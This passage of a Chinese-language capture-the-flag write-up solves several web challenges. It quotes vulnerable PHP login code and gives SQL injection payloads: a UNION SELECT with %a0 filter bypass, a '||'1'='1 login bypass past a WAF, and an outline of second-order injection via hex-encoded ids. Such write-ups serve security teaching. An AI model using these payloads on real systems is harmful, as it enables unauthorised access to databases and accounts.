 ```

            $pwd=md5($_POST['password']);
            $query="SELECT password FROM admin WHERE username='".$user."'";

            $result=$pdo->query($query);
            if ($result!=null&&$result->rowCount()!==0)
            {
                while($row = $result->fetch())
                {
                    if ($row['password']===$pwd)
                        echo $flag;
                    else
                    {
                        echo '<div class="alert alert-error"> <a class="close" data-dismiss="alert">×</a><strong>密码错误</strong></div>';
                    }
                }
            }
```
username=admind'%a0union%a0select%a0'4124bc0a9335c27f086f24ba207a4912'%a0from%a0admin%a0where%a0'1'='1&password=aa


----
## Web 24

脑残出题人 题目改来改去

一开始没有登录界面。。。

访问下http://218.76.35.75:20116/flagishere/
有个登录框

万能密码绕过

有waf,但是没过滤'和｜｜
用户名 admin
密码'||'1'='1
Your Flag:flag{s0_e4sy_sq1i_:)}

----
## Web 25

1、.index.php.swp源码泄露

2、注入点id是被is_numeric过滤后，插入到vote表里的，可以用十六进制或者二进制绕过is_numeric,把注入查询语句插入到vote表里，然后又从vote表里取出，形成二次注入

3、猜解t_flag表，使用GROUP_CONCAT(flag)取flag

----

# 参考：
1. 比赛题目：http://www.hetianlab.com/pages/activity/X-NUCANationalTL.jsp